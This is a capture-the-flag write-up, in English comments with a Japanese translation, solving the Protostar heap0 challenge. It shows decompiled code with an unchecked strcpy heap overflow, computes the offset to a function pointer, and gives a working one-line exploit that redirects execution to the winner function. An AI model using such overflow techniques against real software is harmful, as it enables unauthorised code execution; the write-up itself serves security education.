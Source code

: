 # protostar heap 0

<!-- Let's take a look at the binary. Also this challenge is a bit different from the others, the goal is to run the `winner` function. Also I recompiled this challenge from source: -->
バイナリを見てみましょう。
また、このチャレンジは他のチャレンジとは少し異なり、ゴールは `winner` 関数を実行することです。
また、私はこのチャレンジをソースから再コンパイルしました。

```
$    file heap0
heap0: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=ca0d25fb47b05e42811810bf08e5376b33f64501, not stripped
$    pwn checksec heap0
[*] '/Hackery/pod/modules/heap_overflow/protostart_heap0/heap0'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./heap0
data is at 0x56fde160, fp is at 0x56fde1b0
Segmentation fault (core dumped)
$    ./heap0 15935728
data is at 0x56c08160, fp is at 0x56c081b0
level has not been passed
```

<!-- So we can see it prints out what looks like two heap addresses, and takes in input as an argument. In addition to that we see that there is no PIE, and it is a 32 bit binary. When we take a look at the main function in Ghidra, we see this: -->
つまり、2つのヒープアドレスのようなものを出力し、引数として入力を受け取っていることがわかります。
さらに、PIEがないこと、32ビットバイナリであることもわかります。
Ghidraのmain関数を見てみましょう:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined4 param_1,int param_2)

{
  char *ptr0;
  undefined **ptr1;
 
  ptr0 = (char *)malloc(0x40);
  ptr1 = (undefined **)malloc(4);
  *(code **)ptr1 = nowinner;
  printf("data is at %p, fp is at %p\n",ptr0,ptr1);
  strcpy(ptr0,*(char **)(param_2 + 4));
  (*(code *)*ptr1)();
  return 0;
}
```

<!-- So we can see a few things. First that it allocates two separate heap chunks, one `0x40` bytes big and the other just `4` bytes (`ptr0` and `ptr1`). Then it sets `ptr1` equal to the function `nowinner`. After that it prints the value of `ptr0` and `ptr1` (so that is where our two heap addresses come from). Proceeding that it copies over the input we gave it via an argument to `ptr0`, however doesn't check for an overflow. This gives us a heap overflow bug. Proceeding that it executes the address pointed to by `ptr1`. -->
これで、いくつかのことがわかります。
まず、2つの別々のヒープチャンクを確保します。1つは `0x40` バイトの大きさで、もう1つは `4` バイトだけです (`ptr0` と `ptr1`)。
そして、 `ptr1` を関数 `nowinner` と同じ値に設定します。
その後、 `ptr0` と `ptr1` の値を表示します (つまり、これが 2 つのヒープアドレスの由来となります)。
続けて、引数で与えた入力を `ptr0` にコピーしますが、オーバーフローをチェックしません。
これはヒープオーバーフローのバグになります。`ptr1` が指すアドレスを実行します。

<!-- So we have an overflow. With it we will use it to overwrite the value of `ptr1` to be that of the `winner` function. When we ran it, we can see that `ptr0` was at `0x56c08160` and `ptr1` was at `0x56c081b0` (for the second iteration of running it). So after `0x56c081b0 - 0x56c08160 = 0x50` bytes of space between the start of our input and the instruction pointer stored in `ptr1`. Next we need the address of `winner`: -->
つまり、オーバーフローが発生しています。
これを利用して、 `ptr1` の値を `winner` 関数の値に上書きします。
実行すると、`ptr0` の値は `0x56c08160` で、`ptr1` の値は `0x56c081b0` (実行の2回目の繰り返し) であることがわかります。
つまり、 `0x56c081b0 - 0x56c08160 = 0x50` バイトのスペースが、入力の開始点と `ptr1` に格納されている命令ポインタの間にあるわけです。
次に、`winner` のアドレスが必要です。

```
$    objdump -D heap0 | grep winner
080484b6 <winner>:
080484e1 <nowinner>:
```

<!-- With that, we have everything we need to solve the challenge: -->
これさえあれば、チャレンジに必要なものはすべて揃っています。

```
$    ./heap0 `python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'`
data is at 0x98ac160, fp is at 0x98ac1b0
level passed
```
